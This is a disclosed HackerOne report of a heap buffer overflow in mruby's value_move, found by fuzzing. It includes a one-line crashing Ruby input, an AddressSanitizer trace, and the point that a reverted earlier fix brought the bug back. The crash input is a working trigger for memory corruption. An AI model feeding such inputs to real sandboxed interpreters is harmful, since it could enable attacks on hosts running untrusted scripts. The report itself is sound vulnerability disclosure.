 # Heap buffer overflow in mruby value_move

## Report Details
- **Report ID**: 209765
- **URL**: https://hackerone.com/reports/209765
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-03-01T04:28:58.927Z
- **Disclosed**: 2017-04-13T21:11:49.474Z

## Reporter
- **Username**: sukhoi
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify-scripts

## Vulnerability Information
Hi:

The following program demonstrates heap overflow on current up-to-date master branch mruby at the time of report, `Latest commit 8b089c0`

Program lead to crash is 
```
d 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0 < 0 - 0.-- 1
```
ASAN stacktrace:
```
➜  mrubyfuzz ./mruby ./testcase.rb
=================================================================
==34183==ERROR: AddressSanitizer: heap-buffer-overflow on address 0x61d00001e880 at pc 0x0000004a33ad bp 0x7ffcfe3e1bd0 sp 0x7ffcfe3e1380
WRITE of size 16 at 0x61d00001e880 thread T0
    #0 0x4a33ac in __asan_memcpy (/media/hdd/mrubyfuzz/mruby+0x4a33ac)
    #1 0x58e729 in value_move /media/hdd/mruby/src/value_array.h:14:15
    #2 0x58e729 in mrb_vm_exec /media/hdd/mruby/src/vm.c:1200
    #3 0x59f2fa in mrb_vm_run /media/hdd/mruby/src/vm.c:815:10
    #4 0x59f2fa in mrb_top_run /media/hdd/mruby/src/vm.c:2573
    #5 0x60f364 in mrb_load_exec /media/hdd/mruby/mrbgems/mruby-compiler/core/parse.y:5759:7
    #6 0x4ebafd in main /media/hdd/mruby/mrbgems/mruby-bin-mruby/tools/mruby/mruby.c:232:11
    #7 0x7fea8386182f in __libc_start_main /build/glibc-Qz8a69/glibc-2.23/csu/../csu/libc-start.c:291
    #8 0x419578 in _start (/media/hdd/mrubyfuzz/mruby+0x419578)

0x61d00001e880 is located 0 bytes to the right of 2048-byte region [0x61d00001e080,0x61d00001e880)
allocated by thread T0 here:
    #0 0x4b9a28 in realloc (/media/hdd/mrubyfuzz/mruby+0x4b9a28)
    #1 0x54c1bd in mrb_default_allocf /media/hdd/mruby/src/state.c:60:12

SUMMARY: AddressSanitizer: heap-buffer-overflow (/media/hdd/mrubyfuzz/mruby+0x4a33ac) in __asan_memcpy
Shadow bytes around the buggy address:
  0x0c3a7fffbcc0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x0c3a7fffbcd0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x0c3a7fffbce0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x0c3a7fffbcf0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x0c3a7fffbd00: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
=>0x0c3a7fffbd10:[fa]fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c3a7fffbd20: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c3a7fffbd30: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c3a7fffbd40: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c3a7fffbd50: fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd
  0x0c3a7fffbd60: fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd fd
Shadow byte legend (one shadow byte represents 8 application bytes):
  Addressable:           00
  Partially addressable: 01 02 03 04 05 06 07
  Heap left redzone:       fa
  Heap right redzone:      fb
  Freed heap region:       fd
  Stack left redzone:      f1
  Stack mid redzone:       f2
  Stack right redzone:     f3
  Stack partial redzone:   f4
  Stack after return:      f5
  Stack use after scope:   f8
  Global redzone:          f9
  Global init order:       f6
  Poisoned by user:        f7
  Container overflow:      fc
  Array cookie:            ac
  Intra object redzone:    bb
  ASan internal:           fe
  Left alloca redzone:     ca
  Right alloca redzone:    cb
==34183==ABORTING
```
I did a brief search and find my fuzzing finding was very similar to `https://hackerone.com/reports/204421`, which is supposed to be fixed in `https://github.com/mruby/mruby/commit/f198530444f4b5ebfd011c3287114951c8553e5e`. However, `https://github.com/mruby/mruby/commit/736be0e98b9e1136a4dc7cb2dd05e1f33728f767#diff-86406329889f2c13524766839f0a96b3` reverted that fix, making the bug present again on current top master branch. So I'm reporting here again as a new issue.

Thanks!

## Attachments
No attachments

